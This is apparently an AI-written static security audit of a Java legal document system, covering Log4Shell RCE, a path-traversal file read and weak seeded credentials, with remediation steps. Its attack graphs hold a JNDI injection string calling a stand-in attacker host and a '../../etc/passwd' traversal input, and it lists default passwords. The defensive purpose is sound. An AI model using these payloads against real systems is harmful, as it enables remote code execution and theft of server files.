

# Chained Vulnerability Audit Report

**Project:** `app-09-legal-documents` — Legal Document Management System  
**Date:** 2026-05-24  
**Scope:** `src/main/java/`, `src/main/resources/`, `pom.xml`, `Dockerfile`  
**Methodology:** Static-only analysis (no live probes, no dynamic scanners, no shell commands)

---

## Summary Dashboard

| Metric | Value |
|---|---|
| Total chains identified | **3** |
| Maximum severity | **Critical** (RCE via CVE-2021-44228) |
| High | 1 |
| Medium | 2 |
| Cross-cutting weaknesses (non-chain) | **6** |
| Reviewed areas | Controllers, Services, Repositories, Config, DTOs, Models, Tests, Build, Dockerfile |
| Areas not reviewed | Deployment manifests beyond Dockerfile, runtime configuration secrets, third-party SDKs not in `pom.xml` |

---

## Methodology and Safety Note

This review follows a static-only boundary:

- **Reviewed only:** Repository files (`*.java`, `pom.xml`, `Dockerfile`, `application.properties`, tests, configuration).
- **Did NOT execute:** Live HTTP probes, fuzzers, SQL injection payloads, credential attacks, dynamic scanners, exploit scripts, port scans, or any external network activity.
- **Did NOT generate:** Executable exploit payloads or step-by-step abuse instructions.

Each chain is evaluated on:
- **Source** — entry point with file, line, symbol.
- **Hop(s)** — intermediate weaknesses.
- **Sink** — critical capability reached.
- **Confidence** — High (every link statically provable), Medium (plausible but one link depends on runtime behavior not visible in source), Low (weakly supported).
- **Remediation** — the easiest single link to break.

---

## Chain 1 — Log4Shell (CVE-2021-44228) → Remote Code Execution

### Overview

A user-supplied `title` field in the `POST /api/cases` endpoint is directly interpolated into a `log4j` `logger.info()` call. The project explicitly pins `log4j2.version` to `2.14.1`, a version known to be vulnerable to JNDI lookup injection (Log4Shell). An attacker can supply a crafted title containing a `${jndi:ldap://...}` expression, triggering a remote JNDI lookup that resolves to attacker-controlled code execution.

### Mermaid Attack Graph

```mermaid
flowchart LR
    A[Unauth/Attacker] -->|POST /api/cases<br/>title=  "${jndi:ldap://evil.com/x}"| B[CaseController.createCase()]
    B -->|String concat + logger.info| C[Log4j 2.14.1 interpolation]
    C -->|JNDI lookup resolves<br/>attacker LDAP payload| D[Remote Class Loading]
    D -->|Arbitrary bytecode| E[RCE on server]
```

### Detailed Chain Breakdown

| Element | File | Line(s) | Symbol / Reference |
|---|---|---|---|
| **Entry / Source** | `src/main/java/com/legal/controller/CaseController.java` | 36–48 | `createCase(@RequestBody CaseDTO dto)` |
| **Weakness (hop)** | `src/main/java/com/legal/controller/CaseController.java` | 44 | `logger.info("Creating case: " + dto.getTitle())` |
| **Weakness (dep)** | `pom.xml` | 21–22 | `<log4j2.version>2.14.1</log4j2.version>` — explicitly pinned vulnerable version |
| **Sink** | Log4j 2.14.1 JNDI lookup engine | — | CVE-2021-44228 — arbitrary JNDI protocol lookup |
| **Preconditions** | Requires `POST /api/cases` reachability; user must be authenticated (ATTORNEY or ADMIN role per `@PreAuthorize`); web server must be running with default settings. |
| **Impact** | **Remote Code Execution** on the application host. RCE can be used to read sensitive documents, modify database records, establish persistence, or pivot to internal networks. |
| **Severity** | **Critical** |
| **Confidence** | **High** — every link is statically provable from source and `pom.xml`. The vulnerable version, the interpolation point, and the JNDI resolution mechanism are all confirmed. |
| **Remediation** | **Easiest link:** Bump `log4j2.version` to `2.17.1` or later (≥ 2.17.1 closes JNDI lookup entirely; ≥ 2.20.0 recommended). Also apply `log4j2.formatMsgNoLookups=true` JVM property as an immediate short-term mitigation. |

---

## Chain 2 — Path Traversal → Arbitrary File Read

### Overview

The `GET /api/documents/file` endpoint accepts a `fileName` query parameter and concatenates it directly to a base path (`/app/legal-documents/`) without calling `Path.normalize()`, without stripping `..` segments, and without validating that the resolved path starts with the intended prefix. This allows an authenticated user to read arbitrary server-side files via `../` traversal.

### Mermaid Attack Graph

```mermaid
flowchart LR
    A[Authenticated User] -->|GET /api/documents/file?fileName=../../etc/passwd| B[DocumentController.serveDocumentFile()]
    B -->|basePath + fileName (no normalization)| C[java.nio.file.Paths.get("/app/legal-documents/../../etc/passwd")]
    C -->|resolve= "/etc/passwd"| D[Files.readAllBytes()]
    D --> E[Arbitrary file contents returned to client]
```

### Detailed Chain Breakdown

| Element | File | Line(s) | Symbol / Reference |
|---|---|---|---|
| **Entry / Source** | `src/main/java/com/legal/controller/DocumentController.java` | 76–87 | `serveDocumentFile(@RequestParam String fileName, ...)` |
| **Weakness** | `src/main/java/com/legal/controller/DocumentController.java` | 81–82 | `java.nio.file.Path filePath = java.nio.file.Paths.get(basePath + fileName);` — no `normalize()`, no `startsWith()` guard |
| **Sink** | `java.nio.file.Files.readAllBytes(filePath)` at line 83 | — | Reads raw file bytes and returns them in HTTP 200 response |
| **Preconditions** | User must be authenticated (any role). The traversal target must exist on the host filesystem. Dockerfile reveals a container build with JRE; typical Linux mounts (`/etc/passwd`, `/proc/self/environ`, keys, config) are reachable. |
| **Impact** | **Sensitive file disclosure** — reading server configuration, signing keys, `.ssh` authorized_keys, `/proc` data, or any file the Java process can read. |
| **Severity** | **High** |
| **Confidence** | **High** — path concatenation and the absence of any normalization or prefix check are statically provable. |
| **Remediation** | Use `Path.resolve(fileName).normalize()` and assert `filePath.startsWith(Paths.get(basePath))` before reading. Alternatively, use a file-ID approach with a stored mapping rather than raw filenames. |

---

## Chain 3 — Weak Pre-Seeded Credentials → Unauthorized Data Access

### Overview

`DataInitializer` runs on application startup and creates four user accounts with well-known, simple passwords that are never changed. A subsequent controller endpoint (`GET /api/users/me`) reveals the authenticated user's role. Combined with these static credentials, an attacker who obtains them (through social engineering, leaked logs, or credentials found in logs) can gain access to the application. If the user is a CLIENT, they can only access their own cases and documents. However, any role difference in the application's data model is based on server-side enforcement in the controllers; the credentials themselves are trivially guessable.

### Mermaid Attack Graph

```mermaid
flowchart LR
    A[Attacker] -->|Social engineering / leaked credentials| B[Known passwords:<br/>attorney:attorney123<br/>client_acme:client123<br/>admin:admin123]
    B -->|POST /login| C[Form Login (SecurityConfig)]
    C -->|Auth success| D[Role-based access]
    D -->|CLIENT role →| E[Access own cases & documents only]
    D -->|ADMIN role →| F[Unrestricted admin access]
    D -->|ATTORNEY role →| G[View ALL cases]
```

### Detailed Chain Breakdown

| Element | File | Line(s) | Symbol / Reference |
|---|---|---|---|
| **Entry / Source** | `src/main/java/com/legal/config/DataInitializer.java` | 39–53 | Hardcoded user creation with simple passwords |
| **Weakness (credentials)** | `src/main/java/com/legal/config/DataInitializer.java` | 40, 46, 49, 52 | `passwordEncoder.encode("attorney123")`, `"client123"`, `"client123"`, `"admin123"` |
| **Weakness (disclosure)** | `src/main/java/com/legal/controller/UserController.java` | 23–31 | `getProfile()` returns username and **role**, confirming privilege level after login |
| **Sink** | `SecurityConfig.java` lines 34–36: `.anyRequest().authenticated()` + `@PreAuthorize` on `CaseController` — role-based access controls applied after authentication |
| **Preconditions** | Credentials must be obtained (they are pre-seeded and trivially guessable). The `PasswordEncoder` bean uses BCrypt (line 78), so hashes are stored safely; the weakness is credential selection, not hashing. |
| **Impact** | **Unauthorized access** to legal documents, case files, and potentially administrative functions. If the ADMIN or ATTORNEY credentials are compromised, full system access is obtained. |
| **Severity** | **Medium** (confined by role-based access, but CONFIDENTIAL legal data is exposed) |
| **Confidence** | **High** — credentials are plaintext in source; `PasswordEncoder` encodes them at startup; `SecurityConfig` enforces roles post-auth. |
| **Remediation** | Remove `DataInitializer` in production, or seed credentials only for local development with a feature flag. Enforce password complexity policies at registration time. Require initial-password change on first login. |

---

## Mermaid: Combined Attack Graph (All Chains)



---

## Cross-Cutting Weaknesses (Not Full Chains)

The following security-relevant weaknesses were identified but do not, in isolation, form a complete exploitable chain with a critical sink under default configurations:

| # | Weakness | File | Line(s) | Detail |
|---|---|---|---|---|
| 1 | **CSRF protection disabled** | `SecurityConfig.java` | 31 | `.csrf(csrf -> csrf.disable())` — All POST endpoints accept requests from cross-origin forms. While form-based login is used, no CSRF token is required for state-changing endpoints. |
| 2 | **No rate limiting on login** | `SecurityConfig.java` | 26–31 | No `AuthenticationFailureHandler` throttling; brute-force attacks against `/login` are unlimited. |
| 3 | **H2 in-memory DB with no password** | `application.properties` | 3–5 | `spring.datasource.password=` is empty; JDBC URL uses `jdbc:h2:mem:legaldb`. No connection password, though in-memory limits remote DB attack surface. |
| 4 | **Spring Security debug logging** | `application.properties` | 10 | `logging.level.org.springframework.security=DEBUG` — in production, this may expose authentication details, grant authorities, and internal request flow in logs. |
| 5 | **No CORS configuration** | (none configured) | — | No `CorsConfigurationSource` bean; default Spring Security CORS policy applies, which may permit `Access-Control-Allow-Origin: *` for non-simple requests. |
| 6 | **Unrestricted file content upload** | `DocumentController.java` | 91–107 | `POST /api/documents` accepts arbitrary `fileContentPlaintext` with no size limit, no type check, and no sanitization. Potential for storage exhaustion or content injection. |

---

## Confidence Rating Summary

| Chain | Confidence | Rationale |
|---|---|---|
| Chain 1 (Log4Shell RCE) | **High** | Vulnerable Log4j version pinned in `pom.xml`; log4j `logger.info()` concatenates user input at statically identified line. JNDI lookup mechanism is a known, well-documented sink. |
| Chain 2 (Path Traversal) | **High** | Direct `Paths.get(basePath + fileName)` with no `normalize()` or `startsWith()` guard; statically provable. |
| Chain 3 (Weak Credentials) | **High** | Plaintext passwords in `DataInitializer`; BCrypt hashing and role-based enforcement confirmed in `SecurityConfig`. |

---

## Unknowns and Areas Not Reviewed

| Area | Reason |
|---|---|
| **Runtime configuration** | `application.properties` only; no external config servers, secrets managers, or vault integration reviewed. |
| **Deployment / network** | Dockerfile examined but Kubernetes manifests, ingress rules, and network policies were not reviewed. |
| **SSL/TLS configuration** | No `application.properties` TLS settings; SSL termination may occur at the container/container-orchestrator level (not visible in source). |
| **Third-party SDKs / classes** | Full transitive `pom.xml` dependency tree not analyzed; only direct dependencies examined. |
| **Frontend / SPA** | Only a partial JS/CSS static resource path (`/js/**`, `/css/**`) referenced in security config; frontend source code was not available. |
| **Authentication provider** | Form-based login is configured; OAuth2/SAML integration points (if any) not visible. |
| **File upload storage** | The `/api/documents/file` endpoint reads from `/app/legal-documents/` but actual upload storage path is not fully visible (document upload stores to H2 DB via `DocumentService`, not to filesystem). |

---

## Recommended Tests to Add

1. **Log4j version test** — Verify `log4j-core` dependency version via `mvn dependency:tree` confirms ≥ 2.17.1.
2. **Path traversal test** — Unit test `/api/documents/file?fileName=../../etc/passwd` returns 403 or 404.
3. **CSRF test** — Verify that a CSRF token is required for all state-changing POST requests (or that CSRF is explicitly justified).
4. **Rate-limiting test** — Send 100 login attempts in succession; verify the application rejects or throttles after N failures.
5. **Password policy test** — Attempt to register or set a password shorter than 12 characters or containing only dictionary words; verify rejection.
6. **Header audit test** — Verify `X-Content-Type-Options`, `X-Frame-Options`, `Content-Security-Policy`, and `Strict-Transport-Security` headers are present and correctly configured.

---

## Remediation Priority Matrix

| Priority | Action | Impact |
|---|---|---|
| **P0 — Immediate** | Upgrade `log4j2.version` to ≥ 2.17.1 in `pom.xml`. | Breaks Chain 1 (RCE). |
| **P0 — Immediate** | Fix path traversal in `DocumentController.serveDocumentFile()` using `Path.normalize()` + prefix check. | Breaks Chain 2 (File Read). |
| **P1 — Short-term** | Remove `DataInitializer` for production; enforce password complexity; require password change on first login. | Breaks Chain 3 (Credential Abuse). |
| **P1 — Short-term** | Enable CSRF protection (`csrf().and()`) and add rate limiting to `/login`. | Mitigates cross-cutting weakness #1 and #2. |
| **P2 — Medium-term** | Configure CORS explicitly. Remove debug logging for production profiles. | Mitigates cross-cutting weaknesses #3, #4, #5. |
| **P2 — Medium-term** | Add file upload size limits, content-type validation, and sanitization. | Mitigates cross-cutting weakness #6. |
| **P3 — Long-term** | Implement HTTPS/TLS everywhere. Add H2 connection password. Audit all user-facing headers. | Defense-in-depth improvements. |

---

## Conclusion

**3 chained vulnerabilities** were identified in this Legal Document Management System, with a maximum severity of **Critical** (Log4Shell RCE). The most urgent remediation is upgrading the Log4j dependency and fixing the path traversal in the document serving endpoint. Both are straightforward source code changes that individually break their respective chains.

The application is a reasonable prototype with role-based access controls and BCrypt password hashing in place, but it is undermined by a dangerously outdated logging library, a trivial path traversal bug, and pre-seeded weak credentials suitable for production deployment.
